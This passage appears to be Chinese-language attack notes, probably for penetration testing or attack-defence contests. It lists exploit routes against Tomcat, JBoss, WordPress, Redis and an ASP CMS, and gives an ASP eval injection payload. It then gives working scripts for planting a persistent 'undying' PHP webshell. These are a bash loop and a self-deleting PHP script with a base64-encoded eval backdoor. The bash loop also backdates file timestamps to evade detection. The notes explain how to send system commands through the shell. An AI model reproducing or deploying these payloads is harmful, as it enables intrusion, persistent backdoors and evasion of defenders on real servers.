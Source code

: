 http头注入；

编辑文件时文件包含；

宽字节注入。

- tomcat

8009端口ajp漏洞；

manage.html文件包含漏洞。

- jboss 命令执行RCE
- wordpress 外观（主题）编辑getshell
- redis 4.x/5.x RCE远程命令执行

exp：[https://github.com/Ridter/redis-rce](https://github.com/Ridter/redis-rce)

需要python3.6版本以上，将input改为raw_input可以用python2.7运行。

- 魅力CMS

后台模板设置管理公司名称注入

```
%><%eval request(cmd)
```

保存后可以访问http://xxx.com/inc/config.asp处可以getshell。

#### 9. 种不死马

拿到webshell之后，进入服务器要种不死马，我了解的有两种方式：

- shell脚本

在有写权限的目录下新建一个usr_bin_apache.sh（名字仅为了迷惑，自取），写入如下内容：

```sh
while true;
do echo '<?php if(md5($_POST[pass])=="8439ab786d9712478e98c6afe8d62c98"){@eval($_POST[a]);} ?>' >.index.php;
touch -m -d "2020-12-17 09:30:01" .index.php;
chmod +x .index.php;
sleep 5;
done;
```

时间自己改就行，目的是防止对方根据文件生成时间进行查杀。

不死马名称为.index.php。

连接方式为：http://xxx/xx.php，然后post参数`pass=YXR0YWNr&a=system(ls);`，改参数a的值来执行系统命令。

- php文件激活

创建一个文件shell.php写入下面内容或者直接上传，注意要在有写权限的目录下激活，否则生成不了不死马。

```php
<?php
 ignore_user_abort(true);
 set_time_limit(0);
 unlink(__FILE__); 
 $file = '.index.php';
 $code = base64_decode('PD9waHAgaWYobWQ1KCRfUE9TVFtwYXNzXSk9PSI4NDM5YWI3ODZkOTcxMjQ3OGU5OGM2YWZlOGQ2MmM5OCIpe0BldmFsKCRfUE9TVFthXSk7fSA/Pg==');
 while(true) {
     if(md5(file_get_contents($file))!=md5($code)) {
         file_put_contents($file, $code);
     }
     usleep(500);
 }
?>
```
